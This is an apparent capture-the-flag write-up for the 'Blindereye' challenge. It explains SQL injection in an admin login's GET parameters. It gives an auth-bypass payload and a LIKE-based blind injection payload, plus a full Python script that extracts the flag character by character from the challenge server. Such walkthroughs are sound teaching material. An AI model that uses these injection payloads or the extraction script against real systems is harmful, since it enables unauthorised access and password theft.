



# Blindereye

Challenge Description:

> An eye for an eye only ends up making the whole world blind.

## Analyzing the website

We have a /admin route which takes username and password as get parameters.The views.py file also has a checksecret function which does not use prepared statements because of which there is sql injection in both parameters.



Putting username --> `' or 1=1-- ` logs us in as the admin but no flag is present.



This makes me think that we need to do blind sql injection to find the admin's password.We can use the LIKE operator with % to match 0 or more number of characters.

Payload --> `' or password like "{char}%"-- `

We can automate this by using the script below which iterates through almost all the printable characters and finds the correct characters of the flag.

```python
import requests
import string

#flag = 'CTFUA{1m_l3g4lly_bl1nd}'
var = True
status = 0
flag = 'ctfua{'

printable = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!&()*+,-=@^}~'

while(var):
	for char in printable:
		print(f"Trying char --> {char}")
		payload = f"' or password like \"{flag + char}%\"-- "
		url = f"http://cybersecweek.ua.pt:2006/admin?username={payload}&password=admin"

		r = requests.get(url)
		if "Admin Panel" in r.text:
			flag += char
			print(f"Got flag --> {flag}")
			if char == "}":
				print(f"Flag done --> {flag}")
				status = 1
			break

	if(status):
		break
		
	if(char == "~"):
		print("_ here mostly")
		flag += '_'
```

Running this script gives us the starting few characters as shown below and it continues to find the complete flag.

